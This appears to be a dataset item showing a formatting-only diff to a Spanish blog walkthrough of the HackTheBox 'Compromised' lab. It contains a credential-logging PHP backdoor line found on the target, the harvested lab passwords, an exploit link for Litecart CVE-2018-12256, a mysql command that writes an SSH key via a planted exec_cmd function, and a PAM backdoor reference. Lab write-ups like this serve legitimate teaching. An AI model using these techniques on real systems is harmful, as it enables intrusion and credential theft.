

Before and after one commit to fredisanmar/fredisanmar.github.io, a Jekyll site: the page built from _posts/2021-01-23-Compromised-HTB.md, in a window 1280 px wide and 900 px high, scrolled down 5269 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

```diff
--- a/_posts/2021-01-23-Compromised-HTB.md
+++ b/_posts/2021-01-23-Compromised-HTB.md
@@ -87,7 +87,7 @@ Al descomprimirlo nos aparece el directorio shop, que es el mismo del que tira l
 
 En este fichero encontramos una linea comentada:
 
-  `//file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);`
+    //file_put_contents("./.log2301c9430d8593ae.txt", "User: " . $_POST['username'] . " Passwd: " . $_POST['password']);
 
 La funcionalidad de esta linea, es escribir en el fichero .log2301c9430d8593ae.txt el username y la password introducidos en el formulario de login.
 
@@ -95,7 +95,7 @@ Si accedemos desde la web a ese fichero, nos aparecerá la password del user adm
 
 ![Compromised-admin-pass](/assets/imagenes/2021-01-23-compromised-HTB/Compromised-admin-pass.png)
 
-  - URL: http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt
+  - URL: (http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt)
   - Contenido: User: admin Passwd: theNextGenSt0r3!~
 
 Enumerando un poco más en profundidad los directorios y los ficheros, nos encontramos un fichero interesante llamado config.inc.php dentro del directorio /shop/includes. En este fichero, nos encontramos con unas credenciales de root para mysql que nos serviran más adelante.
@@ -123,16 +123,16 @@ Una vez tenemos el backup bien enumerado, vamos a proceder a hacer uso de las cr
 
 ![Compromised-login](/assets/imagenes/2021-01-23-compromised-HTB/Compromised-login.png)
 
-  - URL: http://10.10.10.207/shop/admin/login.php
+  - URL: (http://10.10.10.207/shop/admin/login.php)
 
 una vez logeados, veremos que la version de litecart que esta corriendo es la 2.1.2, la cual es vulnerable a *Arbitrary File Upload*.
 
   - Producto y versión: Litecart 2.1.2
   - CVE: [CVE-2018-12256](https://www.cvedetails.com/cve-details.php?cve_id=CVE-2018-12256)
-  - Exploit: https://www.exploit-db.com/exploits/45267
+  - Exploit: (https://www.exploit-db.com/exploits/45267)
 
 En este caso la vulnerabilidad se encuentra en el modulo vqmod, el cual permite subir ficheros xml, pero no realiza una comprobación correcta de los mismos, ya que solo comprueba el parametro content-type. Esto deriva en la posibilidad de subir fichero de otro tipo.
-  - vQmod Docs: http://docs.opencart.com/en-gb/administration/vqmod/
+  - vQmod Docs: (http://docs.opencart.com/en-gb/administration/vqmod/)
 
 En este caso queremos subir un fichero php con la funcion `phpinfo()` para comprobar si tenemos alguna limitación.
 En mi caso el exploit que lo hace de manera aoutmatica no me funciono, por lo que voy a hacerlo de manera manual utilizando burpsuite.
@@ -201,7 +201,7 @@ Esto lo haremos usando el siguiente comando:
 
 ![compromised-pubkey](/assets/imagenes/2021-01-23-compromised-HTB/Compromised-pubkey.png)
 
-  `mysql -u root -p'changethis' -e "select exec_cmd('echo <Tu Clave Pública> > ~/.ssh/authorized_keys')"`
+    mysql -u root -p'changethis' -e "select exec_cmd('echo <Tu Clave Pública> > ~/.ssh/authorized_keys')"
 
 ![Compromised-mysql-ssh](/assets/imagenes/2021-01-23-compromised-HTB/Compromised-mysql-ssh.png)
 
@@ -230,7 +230,7 @@ Una vez tenemos el Usuario, vamos a proceder a enumerar la máquina en busca de
 
 Llama la atencion que el md5 de el fichero pam_unix.so no coincida con el original. Esto puede significar que el atacante se ha aprovechado de una vulnerabilidad de la pam y a instalado ahí una [backdoor](https://github.com/zephrax/linux-pam-backdoor).
 
-  * https://x-c3ll.github.io/posts/PAM-backdoor-DNS/
+  * (https://x-c3ll.github.io/posts/PAM-backdoor-DNS/)
 
 ---
 ## Escalada de privilegios
```
